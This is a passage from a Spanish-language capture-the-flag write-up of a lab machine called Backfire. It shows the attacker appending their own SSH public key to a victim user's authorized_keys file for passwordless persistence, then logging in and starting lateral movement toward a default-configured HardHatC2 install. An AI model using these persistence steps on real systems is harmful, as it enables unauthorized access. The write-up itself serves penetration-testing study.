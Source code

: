 Estando conectados en el equipo víctima, navegaremos al directorio `/home/ilya/.ssh` para añadir nuestra clave pública en el archivo `authorized_keys`.

```bash
ilya@backfire:~/Havoc/payloads/Demon$ cd /home/ilya/.ssh/
cd /home/ilya/.ssh/
ilya@backfire:~/.ssh$ ls -l
ls -l
total 4
-rw-r--r-- 1 ilya ilya 1 Dec 17 11:36 authorized_keys
ilya@backfire:~/.ssh$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINchj1ycZWUZctrUZl/nhPPxygCF1kT7UbFMFfVqiyz0 kali@kali' >> authorized_keys
<xygCF1kT7UbFMFfVqiyz0 kali@kali' >> authorized_keys
ilya@backfire:~/.ssh$ cat authorized_keys
cat authorized_keys

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINchj1ycZWUZctrUZl/nhPPxygCF1kT7UbFMFfVqiyz0 kali@kali
```

Desde nuestro equipo atacante, nos conectaremos mediante SSH al equipo víctima con el usuario `ilya` y verificaremos que no nos requiere de credenciales de acceso.

```bash
❯ ssh ilya@10.10.11.49
The authenticity of host '10.10.11.49 (10.10.11.49)' can't be established.
ED25519 key fingerprint is SHA256:vKC7A11sFxQLRppUMt01q0d/DPREoskH4Aa42t0Bz9M.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.49' (ED25519) to the list of known hosts.
Linux backfire 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
ilya@backfire:~$
```

## Lateral Movement

### Reviewing services on the machine and detecting running HardHat 2 services

Revisando el directorio de `ilya`, nos encontramos con el siguiente archivo `hardhat.txt` el cual informa que el usuario `sergej` dice haber instalado `HardHatC2` para realizar pruebas y que no realizó ningún cambio a las configuraciones por defecto. También indica que espera que haya escogido el C2 de `Havoc` en vez del mencionado.

```bash
ilya@backfire:~$ ls -l
total 16
drwxr-xr-x  2 root root 4096 Sep 30 07:39 files
-rw-r--r--  1 root root  174 Sep 28 23:02 hardhat.txt
drwxr-xr-x 10 ilya ilya 4096 Sep 27 19:18 Havoc
-rw-r-----  1 root ilya   33 Jan 20 22:00 user.txt
ilya@backfire:~$ cat hardhat.txt 
Sergej said he installed HardHatC2 for testing and  not made any changes to the defaults
I hope he prefers Havoc bcoz I don't wanna learn another C2 framework, also Go > C# 
```
